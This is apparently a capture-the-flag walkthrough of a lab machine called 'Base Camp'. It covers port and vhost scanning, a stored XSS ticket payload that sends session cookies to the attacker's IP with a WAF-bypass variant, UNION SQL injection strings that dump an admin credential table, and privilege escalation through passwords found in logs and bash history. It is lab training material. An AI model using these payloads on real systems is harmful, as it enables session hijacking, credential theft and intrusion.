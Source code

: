 # Base Camp

## Machine Information



## Port Scan

```bash
nmap -T4 -A -p- --min-rate 1000 -oN port_scan.txt 10.10.110.174

Nmap scan report for 10.10.110.174
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:52:02:e8:d9:4b:83:1a:52:c9:9c:b8:43:72:83:71 (RSA)
|   256 37:94:6e:99:c2:4f:24:56:fd:ac:77:e2:1b:ec:a0:9f (ECDSA)
|_  256 8f:3b:26:92:67:ec:cc:05:30:27:17:c5:df:9a:42:d2 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Dimension by HTML5 UP
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

<figure><img src="../../../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>



### VHOST enumeration



{% code overflow="wrap" %}
```bash
ffuf -H "Host: FUZZ.k2.thm" -H "User-Agent: PENTEST" -c -w "/usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt" -u http://k2.thm/ -fs 13229

[..snip..]
admin       [Status: 200, Size: 967, Words: 298, Lines: 24, Duration: 45ms]
it          [Status: 200, Size: 1083, Words: 322, Lines: 25, Duration: 38ms]
ADMIN       [Status: 200, Size: 967, Words: 298, Lines: 24, Duration: 42ms]

```
{% endcode %}

Add the subdomain found admin to `/etc/hosts` file and visit the page.

```
admin.k2.thm
```

<figure><img src="../../../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>



In thid Admin panel there's not anything instead in the other vhost we can Sign Up to the site.

```
it.k2.thm
```

<figure><img src="../../../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

Once registered we see this.

<figure><img src="../../../../.gitbook/assets/image (337).png" alt=""><figcaption></figcaption></figure>



### XSS Stored - Ticket Portal

I though that the Description field for a new ticket might be vulnerable to XSS Stored.

If we try this payload and create the ticket the portal shows a WAF filter error:

```
<script>fetch('http://10.23.52.142:80/steal?cookie=' + btoa(document.cookie));</script>
```

Analyse the WAF filter we can notice that only the word "`document.cookie`" is blocked. So we can bypassing this replace that string to this `document["cookie"]`. Then, start a listener on the 80 port and wait that a support member open the ticket.

<pre data-title="XSS Payload"><code><strong>&#x3C;script>fetch('http://10.23.52.142:80/steal?cookie=' + btoa(document["cookie"]));&#x3C;/script>
</strong></code></pre>



<figure><img src="../../../../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (340).png" alt=""><figcaption></figcaption></figure>

Decode the base64 cookie obtained:

{% code overflow="wrap" %}
```
session=eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aIno8w.o26Y9EEMUhFuvbH98fER3MGkmB4
```
{% endcode %}

Decode this JWT and get id the cookie owned by admin user.

```
{
  "admin_username": "james",
  "id": 1,
  "loggedin": true
}
```

Yes, he's an administrator. Now add this cookie in the Browser storage and try to access into admin panel discovered before.

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption></figcaption></figure>

And we are in the admin panel

<figure><img src="../../../../.gitbook/assets/image (342).png" alt=""><figcaption></figcaption></figure>



### Union SQL injection

Uploading some SQLi payload and the page got a error

<figure><img src="../../../../.gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

Adding other columns we can solve this error, and retrive DB informations

<figure><img src="../../../../.gitbook/assets/image (344).png" alt=""><figcaption></figcaption></figure>

Using these payloads retrive all DB information:

{% code overflow="wrap" %}
```bash
# DB name
1' UNION SELECT 1,2,database(); -- ' # output: ticketsite

# DB Tables
0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'ticketsite'; -- ' # output: admin_auth,auth_users,tickets

# Columns
0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'admin_auth'; -- ' # output: admin_password,admin_username,email,id

# Get data table
0' UNION SELECT 1,2,group_concat(admin_username,':',admin_password SEPARATOR '<br>') FROM admin_auth; -- '
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
james:Pwd@9tLNrC3!
rose:VrMAogdfxW!9
bob:PasSW0Rd321
steve:St3veRoxx32
cait:PartyAlLDaY!32
xu:L0v3MyDog!3!
ash:PikAchu!IshoesU!
```
{% endcode %}

### SSH Login

Only this user can access to the server

```
james:Pwd@9tLNrC3!
```

With this credentials get access through SSH

```bash
ssh james@10.10.239.252
> Pwd@9tLNrC3!
```

Print the user flag

```bash
cat /home/james/user.txt
```

## Linux PrivEsc

### User in Adm group

Running `id` command we can see that the user is in the `adm` group, it means that can see all log in the machine.

```bash
id
uid=1002(james) gid=1002(james) groups=1002(james),4(adm)  
```

Run this grep command to search some passwords in log

```bash
grep -iR "pass" /var/log
```

In this way, we found the rose's password into a nginx log.

{% code overflow="wrap" %}
```
/var/log/nginx/access.log.1:10.0.2.51 - - [24/May/2023:22:17:17 +0000] "GET /login?username=rose&password=RdzQ7MSKt)fNaz3! HTTP/1.1" 200 1356 "http://admin.k2.thm/" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```
{% endcode %}

Trying to connect as Rose with this password the connection won't work. Try to use this password with root user.

```
ssh root@10.10.239.252
> RdzQ7MSKt)fNaz3!
```

and we are root. Print the root flag

```bash
cat /root/root.txt
```

### Find other passwords

With root shell we can search other information like passwords.

Access to the rose's home and check for the history files.

```bash
cat /home/rose/.bash_history

sudo suvRMkaVgdfxhW!8
sudo su
```

The password for rose is `vRMkaVgdfxhW!8`



## Bonus questions

The list of all user and password that can access to the server is:

```
james:Pwd@9tLNrC3!,root:RdzQ7MSKt)fNaz3!,rose:vRMkaVgdfxhW!8
```

The full name of user we can found in the `/etc/passwd` file.

```bash
cat /etc/passwd

[..snip..]
james:x:1002:1002:James Bold:/home/james:/bin/bash                                                                  
root:x:0:0:root:/root:/bin/bash
rose:x:1001:1001:Rose Bud:/home/rose:/bin/bash
```

```
James Bold, Rose Bud
```

